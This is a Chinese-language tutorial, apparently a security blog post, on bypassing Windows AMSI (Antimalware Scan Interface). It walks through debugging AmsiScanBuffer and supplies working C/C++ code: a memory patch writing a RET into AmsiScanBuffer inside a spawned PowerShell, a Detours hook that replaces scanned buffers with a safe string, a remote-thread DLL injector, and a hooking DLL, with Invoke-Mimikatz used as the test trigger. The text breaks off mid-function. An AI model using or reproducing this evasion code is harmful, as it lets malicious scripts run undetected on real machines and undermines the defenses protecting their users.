Bypass AMSI AMSI介绍 反恶意软件扫描接口（Antimalware Scan Interface）简称AMSI，是微软在Windows中阻止恶意脚本执行的解决方案。AMSI通过分析将要执行的脚本，然后根据是否发现恶意内容来决定执行或者阻止。
下面是微软官方的介绍：
引自：https://docs.microsoft.com/zh-cn/windows/win32/amsi/antimalware-scan-interface-portal
1 2 3 Windows反恶意软件扫描接口 (AMSI) 是一种通用接口标准，可让应用程序和服务与计算机上存在的任何反恶意软件产品集成。 AMSI 为最终用户及其数据、应用程序和工作负荷提供增强的恶意软件防护。 AMSI 与反恶意软件供应商无关;它旨在允许当今反恶意软件产品提供的最常见恶意软件扫描和保护技术，这些反恶意软件产品可以集成到应用程序中。 它支持调用结构，允许文件和内存或流扫描、内容源 URL/IP 信誉检查和其他技术。 AMSI 还支持会话的概念，以便反恶意软件供应商可以关联不同的扫描请求。 例如，恶意有效负载的不同片段可以关联起来，以做出更明智的决策，仅通过单独查看这些片段，这更难到达。
目前，在Windows10中以下组件已经集成了AMSI：
用户帐户控制，或 UAC (EXE、COM、MSI 或 ActiveX的)
PowerShell (脚本、交互式使用和动态代码评估)
Windows脚本主机 (wscript.exe和cscript.exe)
JavaScript 和 VBScript
OfficeVBA 宏
并且 从 Windows 10 上运行的 .NET Framework 4.8 开始，运行时通过实现反恶意软件扫描接口(AMSI) 的反恶意软件解决方案来触发扫描。https://docs.microsoft.com/zh-cn/dotnet/framework/whats-new/
AMSI的架构（图片来自微软官方）
技术原理 启动powershell后执行一段敏感字符，发现powershell拒绝执行并且报毒。

使用x64dbg附加到powershell进程，查看符号可以看到加载了amsi.dll。这个amsi.dll便是AMSI的本体，它存在于C:\Windows\System32\amsi.dll

接下来我们直接跟进调试一下，首先在AmsiScanBuffer下一个断点。

在powershell中输入“Invoke-Mimikatz”并回车

程序执行到中断点处查看以下rdx（第二个参数）。

继续执行到函数的ret，单步执行跳出函数平衡堆栈查看[rsp+28]（第六个参数），

由于是第六个参数是保存在堆栈的，同时传入的是一个指向AMSI_RESULT结构体(枚举类型)的指针，所以我们需要去查看一下指针指向的值。查看0000004DDD20E908 地址可以看到保存的数值是8000（HEX），表示字符串为非敏感字符。

将此处内存手动修改为1（HEX）后继续运行，可以看到已经绕过了AMSI。

接下来我们将介绍几种方法来绕过AMSI。
基于内存补丁的方法绕过AMSI 通过对执行流程进行跟踪，发现字符串是否敏感是通过amsi.dll中的AmsiScanBuffer函数判断的。所以我们可以先考虑使用较为简单的内存补丁的方式对该函数进行修补使其失去作用。
代码和手工的操作流程基本相同：
创建一个powershell进程
获取amsiscanbuffer函数地址
修改函数内存空间属性
修补函数执行体
手工流程 创建一个powershell进程,然后使用调试器附加到powershell进程。

定位到AmsiScanBuffer函数的位置

将AmsiScanBuffer函数修改成直接返回（因为AmsiScanBuffer的返回值是通过第六个参数HRESULT*，并且这个指针指向的地址处默认为零，所以可以通过直接ret的方式返回）

成功绕过AMSI。

代码实现 代码实现比较简单，这里直接附上一个别人的代码。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 #include <Windows.h> #include <stdio.h> int main () STARTUPINFOA si = {0 }; PROCESS_INFORMATION pi = { 0 }; si.cb = sizeof (si); CreateProcessA(NULL , (LPSTR)"powershell -NoExit dir" , NULL , NULL , NULL , NULL , NULL , NULL , &si, &pi); HMODULE hAmsi = LoadLibraryA("amsi.dll" ); LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer" ); Sleep(500 ); DWORD oldProtect; char patch = 0xc3 ; VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1 , PAGE_EXECUTE_READWRITE, &oldProtect); WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof (char ),NULL ); VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1 , oldProtect, NULL ); CloseHandle(pi.hProcess); CloseHandle(pi.hThread); FreeLibrary(hAmsi); return 0 ; }
基于API Hook和DLL注入的方式绕过AMSI 函数hook 函数hook是一种可以在函数调用前对其进行控制的方法。作为攻击者，我们可以利用这项技术做很多事情，比如：记录参数、控制函数的执行、覆盖传入函数的参数、修改函数的返回值。所以要想达到绕过AMSI的效果我们需要hook AmsiScanBuffer这个函数，好消息是Microsoft 提供了一个叫detours的开源库来帮我们完成这个工作，该库使用Trampoline（蹦床） hook的方法来进行函数hook。Trampoline hook的工作方式是：存储目标函数的副本，然后用jmp指令覆盖目标函数的开头，这个跳转将我们发送到我们作为攻击者控制的函数，因此称为Trampoline hook。
下面的代码片段展示了如何使用detours库来hook MessageBox函数并覆盖参数：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 #include <iostream> #include <Windows.h> #include <detours.h> static int (WINAPI* OriginalMessageBox) (HWND hWnd, LPCWSTR lpText, LPCWSTR lpCaption, UINT uType) int WINAPI _MessageBox(HWND hWnd, LPCSTR lpText, LPCTSTR lpCaption, UINT uType) { return OriginalMessageBox(NULL , L"We've used detours to hook MessageBox" , L"Hooked Window" , 0 ); } int main () std ::cout << "[+] Hooking MessageBox" << std ::endl ; DetourRestoreAfterWith(); DetourTransactionBegin(); DetourUpdateThread(GetCurrentThread()); DetourAttach(&(PVOID&)OriginalMessageBox, _MessageBox); DetourTransactionCommit(); std ::cout << "[+] Message Box Hooked" << std ::endl ; MessageBox(NULL , L"My Message" , L"My Caption" , 0 ); std ::cout << "[+] Unhooking MessageBox" << std ::endl ; DetourUpdateThread(GetCurrentThread()); DetourDetach(&(PVOID&)OriginalMessageBox, _MessageBox); DetourTransactionCommit(); std ::cout << "[+] Message Box Unhooked" << std ::endl ; }
有了这些知识，我们就能够从本质上控制AmsiScanBuffer函数的所有方面。所以现在我们创建一个测试的项目，它接受一个字符串，然后使用AmsiScanBuffer来扫描字符串中的恶意内容。
代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 #include <iostream> #include <Windows.h> #include <amsi.h> #include <system_error> #pragma comment(lib, "amsi.lib" ) #define EICAR "hello" const char * GetResultDescription (HRESULT hRes) const char * description; switch { case AMSI_RESULT_CLEAN: description = "AMSI_RESULT_CLEAN" ; break ; case AMSI_RESULT_NOT_DETECTED: description = "AMSI_RESULT_NOT_DETECTED" ; break ; case AMSI_RESULT_BLOCKED_BY_ADMIN_START: description = "AMSI_RESULT_BLOCKED_BY_ADMIN_START" ; break ; case AMSI_RESULT_BLOCKED_BY_ADMIN_END: description = "AMSI_RESULT_BLOCKED_BY_ADMIN_END" ; break ; case AMSI_RESULT_DETECTED: description = "AMSI_RESULT_DETECTED" ; break ; default : description = "" ; break ; } return description; } int main () HAMSICONTEXT amsiContext; HRESULT hResult = S_OK; AMSI_RESULT res = AMSI_RESULT_CLEAN; HAMSISESSION hSession = nullptr ; LPCWSTR fname = L"EICAR" ; BYTE* sample = (BYTE*)EICAR; ULONG size = strlen (EICAR); ZeroMemory (&amsiContext, sizeof hResult = AmsiInitialize (L"AmsiHook" , &amsiContext); if (hResult != S_OK) { std::cout << std::system_category ().message (hResult) << std::endl; std::cout << "[-] AmsiInitialize Failed" << std::endl; return hResult; } hResult = AmsiOpenSession (amsiContext, &hSession); if (hResult != S_OK) { std::cout << std::system_category ().message (hResult) << std::endl; std::cout << "[-] AmsiOpenSession Failed" << std::endl; return hResult; } hResult = AmsiScanBuffer (amsiContext, sample, size, fname, hSession, &res); if (hResult != S_OK) { std::cout << std::system_category ().message (hResult) << std::endl; std::cout << "[-] AmsiScanBuffer Failed " << std::endl; return hResult; } std::cout << GetResultDescription (res) << std::endl; }
程序输出

现在，我们有了一个用于测试AmsiScanBuffer的项目。这意味着我们可以通过实现一些类似于我们在hook MessageBox时使用的东西来尝试本地hook AmsiScanBuffer函数。下面的代码用一个安全的字符串替换了一个危险的字符串(EICAR测试中的字符串)，使得AmsiScanBuffer函数返回了一个安全的消息。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 #include <iostream> #include <Windows.h> #include <amsi.h> #include "detours.h" #include <system_error> #pragma comment(lib, "amsi.lib" ) #define EICAR "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*" #define SAFE "SafeString" const char * GetResultDescription (HRESULT hRes) const char * description; switch (hRes) { case AMSI_RESULT_CLEAN: description = "AMSI_RESULT_CLEAN" ; break ; case AMSI_RESULT_NOT_DETECTED: description = "AMSI_RESULT_NOT_DETECTED" ; break ; case AMSI_RESULT_BLOCKED_BY_ADMIN_START: description = "AMSI_RESULT_BLOCKED_BY_ADMIN_START" ; break ; case AMSI_RESULT_BLOCKED_BY_ADMIN_END: description = "AMSI_RESULT_BLOCKED_BY_ADMIN_END" ; break ; case AMSI_RESULT_DETECTED: description = "AMSI_RESULT_DETECTED" ; break ; default : description = "" ; break ; } return description; } static HRESULT (WINAPI* OriginalAmsiScanBuffer) (HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) HRESULT _AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) { return OriginalAmsiScanBuffer(amsiContext, (BYTE*)SAFE, length, contentName, amsiSession, result); } void HookAmsi () DetourRestoreAfterWith(); DetourTransactionBegin(); DetourUpdateThread(GetCurrentThread()); DetourAttach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer); DetourTransactionCommit(); } void UnhookAmsi () DetourUpdateThread(GetCurrentThread()); DetourDetach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer); DetourTransactionCommit(); } int main () HAMSICONTEXT amsiContext; HRESULT hResult = S_OK; AMSI_RESULT res = AMSI_RESULT_CLEAN; HAMSISESSION hSession = nullptr ; LPCWSTR fname = L"EICAR" ; BYTE* sample = (BYTE*)EICAR; ULONG size = strlen (EICAR); std ::cout << "[+] Hooking AmsiScanBuffer" << std ::endl ; HookAmsi(); std ::cout << "[+] AmsiScanBuffer Hooked" << std ::endl ; ZeroMemory(&amsiContext, sizeof (amsiContext)); hResult = AmsiInitialize(L"AmsiHook" , &amsiContext); if (hResult != S_OK) { std ::cout << std ::system_category().message(hResult) << std ::endl ; std ::cout << "[-] AmsiInitialize Failed" << std ::endl ; return hResult; } hResult = AmsiOpenSession(amsiContext, &hSession); if (hResult != S_OK) { std ::cout << std ::system_category().message(hResult) << std ::endl ; std ::cout << "[-] AmsiOpenSession Failed" << std ::endl ; return hResult; } hResult = AmsiScanBuffer(amsiContext, sample, size, fname, hSession, &res); if (hResult != S_OK) { std ::cout << std ::system_category().message(hResult) << std ::endl ; std ::cout << "[-] AmsiScanBuffer Failed " << std ::endl ; return hResult; } std ::cout << GetResultDescription(res) << std ::endl ; std ::cout << "[+] Unhooking AmsiScanBuffer" << std ::endl ; UnhookAmsi(); std ::cout << "[+] AmsiScanBuffer Unhooked" << std ::endl ; }
本地hook成功

现在我们已经可以做到hook AmsiScanBuffer使其返回一个安全的结果。那么现在我们如何阻止AMSI阻塞恶意的powershell呢?答案是代码注入，我们需要将代码注入到AMSI所在的进程中，然后hook函数并返回一个安全消息。
DLL注入 我们将要做的是创建一个基本的注射器，然后把dll注入到PowerShell（或插入程序使用AMSI的程序）进程中来对AmsiscanBuffer进行hook。下面的代码引自：https://github.com/tomcarver16/SimpleInjector
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 #include <iostream> #include <windows.h> #include <TlHelp32.h> BOOL InjectDll (DWORD procID, char * dllName) { char fullDllName[MAX_PATH]; LPVOID loadLibrary; LPVOID remoteString; if (procID == 0 ) { return FALSE; } HANDLE hProc = OpenProcess (PROCESS_ALL_ACCESS, FALSE, procID); if (hProc == INVALID_HANDLE_VALUE) { return FALSE; } GetFullPathNameA (dllName, MAX_PATH, fullDllName, NULL ); std::cout << "[+] Aquired full DLL path: " << fullDllName << std::endl; loadLibrary = (LPVOID)GetProcAddress (GetModuleHandle ("kernel32.dll" ), "LoadLibraryA" ); remoteString = VirtualAllocEx (hProc, NULL , strlen (fullDllName), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE); WriteProcessMemory (hProc, remoteString, fullDllName, strlen (fullDllName), NULL ); CreateRemoteThread (hProc, NULL , NULL , (LPTHREAD_START_ROUTINE)loadLibrary, (LPVOID)remoteString, NULL , NULL ); CloseHandle (hProc); return TRUE; } DWORD GetProcIDByName (const char * procName) { HANDLE hSnap; BOOL done; PROCESSENTRY32 procEntry; ZeroMemory (&procEntry, sizeof procEntry.dwSize = sizeof hSnap = CreateToolhelp32Snapshot (TH32CS_SNAPPROCESS, 0 ); done = Process32First (hSnap, &procEntry); do { if (_strnicmp(procEntry.szExeFile, procName, sizeof 0 ) { return procEntry.th32ProcessID; } } while (Process32Next (hSnap, &procEntry)); return 0 ; } int main (int argc, char ** argv) const char * processName = argv[1 ]; char * dllName = argv[2 ]; DWORD procID = GetProcIDByName (processName); std::cout << "[+] Got process ID for " << processName << " PID: " << procID << std::endl; if (InjectDll (procID, dllName)) { std::cout << "DLL now injected!" << std::endl; } else { std::cout << "DLL couldn't be injected" << std::endl; } }
现在我们有一个可用的注入器，所以接下来我们要做的就是把我们的可执行文件从早期的exe格式转换成一个dll。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 #include <Windows.h> #include <detours.h> #include <amsi.h> #include <iostream> #pragma comment(lib, "amsi.lib" ) #define SAFE "SafeString" static HRESULT (WINAPI* OriginalAmsiScanBuffer) (HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) __declspec(dllexport) HRESULT _AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) { std ::cout << "[+] AmsiScanBuffer called" << std ::endl ; std ::cout << "[+] Buffer " << buffer << std ::endl ; std ::cout << "[+] Buffer Length " << length << std ::endl ; return OriginalAmsiScanBuffer(amsiContext, (BYTE*)SAFE, length, contentName, amsiSession, result); } BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved ) if (DetourIsHelperProcess()) { return TRUE; } if (dwReason == DLL_PROCESS_ATTACH) { AllocConsole(); freopen_s((FILE**)stdout , "CONOUT$" , "w" , stdout ); DetourRestoreAfterWith(); DetourTransactionBegin(); DetourUpdateThread(GetCurrentThread()); DetourAttach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer); 